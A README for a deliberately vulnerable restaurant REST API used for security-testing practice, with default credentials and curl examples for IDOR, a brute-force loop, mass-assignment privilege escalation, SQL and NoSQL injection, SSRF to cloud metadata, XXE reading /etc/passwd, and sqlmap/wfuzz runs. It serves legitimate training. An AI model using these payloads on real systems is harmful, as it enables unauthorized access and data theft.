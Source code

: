 # DVRestaurant - Damn Vulnerable Restaurant API

## Overview
DVRestaurant is a vulnerable REST API simulating a restaurant management system, designed to practice API security testing and exploitation.

## Quick Start

**Access URL**: http://localhost:8083

**API Base**: http://localhost:8083/api

**Default Credentials**:
- Admin: `admin@restaurant.com` / `admin123`
- User: `user@restaurant.com` / `user123`
- Chef: `chef@restaurant.com` / `chef123`

## API Endpoints

### Authentication
- `POST /api/auth/login` - User login
- `POST /api/auth/register` - User registration
- `POST /api/auth/logout` - Logout

### Menu Management
- `GET /api/menu` - Get all menu items
- `GET /api/menu/{id}` - Get specific item
- `POST /api/menu` - Add menu item (chef only)
- `PUT /api/menu/{id}` - Update menu item
- `DELETE /api/menu/{id}` - Delete menu item

### Orders
- `GET /api/orders` - Get all orders
- `GET /api/orders/{id}` - Get specific order
- `POST /api/orders` - Create new order
- `PUT /api/orders/{id}/status` - Update order status

### Users
- `GET /api/users` - Get all users (admin only)
- `GET /api/users/{id}` - Get user details
- `PUT /api/users/{id}` - Update user
- `DELETE /api/users/{id}` - Delete user

## Vulnerabilities

### 1. Broken Object Level Authorization (BOLA/IDOR)
```bash
# Access another user's order
curl http://localhost:8083/api/orders/1 \
  -H "Authorization: Bearer YOUR_TOKEN"

# Modify another user's profile
curl -X PUT http://localhost:8083/api/users/2 \
  -H "Authorization: Bearer YOUR_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"email":"hacked@evil.com"}'
```

### 2. Broken Authentication
```bash
# Weak JWT secret allows token forging
# JWT secret is often 'secret' or predictable

# No password complexity requirements
curl -X POST http://localhost:8083/api/auth/register \
  -H "Content-Type: application/json" \
  -d '{"email":"test@test.com","password":"1"}'
```

### 3. Excessive Data Exposure
```bash
# User listing exposes sensitive data
curl http://localhost:8083/api/users \
  -H "Authorization: Bearer ADMIN_TOKEN"

# Returns passwords, internal IDs, etc.
```

### 4. Lack of Rate Limiting
```bash
# Brute force login
for i in {1..1000}; do
  curl -X POST http://localhost:8083/api/auth/login \
    -H "Content-Type: application/json" \
    -d '{"email":"admin@restaurant.com","password":"pass'$i'"}'
done
```

### 5. Broken Function Level Authorization
```bash
# Regular user accessing admin functions
curl -X POST http://localhost:8083/api/menu \
  -H "Authorization: Bearer USER_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"name":"Evil Dish","price":9999}'
```

### 6. Mass Assignment
```bash
# Set role during registration
curl -X POST http://localhost:8083/api/auth/register \
  -H "Content-Type: application/json" \
  -d '{"email":"hacker@evil.com","password":"hack","role":"admin","verified":true}'

# Modify order total
curl -X POST http://localhost:8083/api/orders \
  -H "Authorization: Bearer YOUR_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"items":[{"id":1,"quantity":10}],"total":0.01}'
```

### 7. SQL Injection
```bash
# In search parameters
curl "http://localhost:8083/api/menu?search=' OR '1'='1"

# In order filters
curl "http://localhost:8083/api/orders?status=pending' UNION SELECT * FROM users--"
```

### 8. NoSQL Injection
```bash
# If using MongoDB
curl http://localhost:8083/api/menu \
  -H "Content-Type: application/json" \
  -d '{"price":{"$gt":0}}'
```

### 9. Server-Side Request Forgery (SSRF)
```bash
# In image upload or URL processing
curl -X POST http://localhost:8083/api/menu/1/image \
  -H "Authorization: Bearer CHEF_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"imageUrl":"http://169.254.169.254/latest/meta-data/"}'
```

### 10. XML External Entity (XXE)
```bash
# If XML parsing is enabled
curl -X POST http://localhost:8083/api/orders/import \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM "file:///etc/passwd">]>
<order><item>&test;</item></order>'
```

## Privilege Escalation Path

1. Register as normal user
2. Use IDOR to view admin orders/data
3. Use mass assignment to elevate privileges
4. Access admin endpoints
5. Extract all user data
6. Modify system settings

## Testing Tools

### Postman Collection
```json
{
  "info": {
    "name": "DVRestaurant API",
    "schema": "https://schema.getpostman.com/json/collection/v2.1.0/collection.json"
  },
  "item": [
    {
      "name": "Login",
      "request": {
        "method": "POST",
        "url": "{{baseUrl}}/api/auth/login",
        "body": {
          "mode": "raw",
          "raw": "{\"email\":\"admin@restaurant.com\",\"password\":\"admin123\"}"
        }
      }
    }
  ]
}
```

### Automated Testing
```bash
# Using wfuzz for fuzzing
wfuzz -c -z file,/usr/share/wordlists/common.txt \
  -H "Authorization: Bearer TOKEN" \
  http://localhost:8083/api/FUZZ

# Using SQLMap
sqlmap -u "http://localhost:8083/api/menu?search=test" \
  --headers="Authorization: Bearer TOKEN"
```

## Defense Mechanisms (What's Missing)
- ❌ Proper authorization checks
- ❌ Rate limiting
- ❌ Input validation
- ❌ Parameterized queries
- ❌ Secure session management
- ❌ API versioning
- ❌ Audit logging

## Additional Resources
- [REST Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/REST_Security_Cheat_Sheet.html)
- [API Security Best Practices](https://roadmap.sh/best-practices/api-security) 